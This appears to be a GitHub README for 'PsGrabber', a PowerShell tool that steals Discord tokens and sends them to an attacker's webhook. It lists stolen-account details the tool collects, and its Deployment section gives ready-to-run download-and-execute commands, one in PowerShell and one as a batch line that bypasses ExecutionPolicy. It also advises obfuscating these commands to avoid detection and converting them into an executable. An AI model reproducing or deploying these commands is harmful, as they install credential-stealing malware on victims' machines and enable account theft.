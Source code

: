 ![Logo](https://i.ibb.co/Vtx5jqF/Capture.png)

    
# PsGrabber
A Discord token grabber that exfiltrates tokens to a webhook written in powershell



<details open="open">
  <summary>Table of Contents</summary>
  <ol>
    <li>
      <a href="#features">Features</a>
    </li>
    <li>
      <a href="#deployment">Deployment</a>
    </li>
    <li><a href="#acknowledgements">Acknowledgements</a></li>
    <ul>
        <li><a href="#authors">Authors</a></li>
    </ul>
  </ol>
</details>


## Features

- Inbuilt token checker
- All data sent through a webhook
- Provives userID of tokens found
- Provides token type
- Provides the usernames of the tokens stolen
- Gives information on where the tokens stolen are stored

## Deployment

To effectivly deploy this project, choose one of these steps\
To avoid detection, the following commands should be Encoded using [Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation)


#### Define HookUrl and use the payload as a powershell script
```powershell
$hookurl="";iex((iwr https://raw.githubusercontent.com/MattOverthrow/PSGrabber/main/PSGrabber.ps1).content)
```

#### Convert to batch and then convert into an exe using a third party program
```batch
powershell.exe -NoProfile -ExecutionPolicy bypass -Command "$hookurl="";iex((iwr https://raw.githubusercontent.com/MattOverthrow/PSGrabber/main/PSGrabber.ps1).content)"
```

## Acknowledgements

 - danielbohannon for The [obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation) used in the program
  


## Authors

- [@MattOverthow](https://github.com/MattOverthrow/)

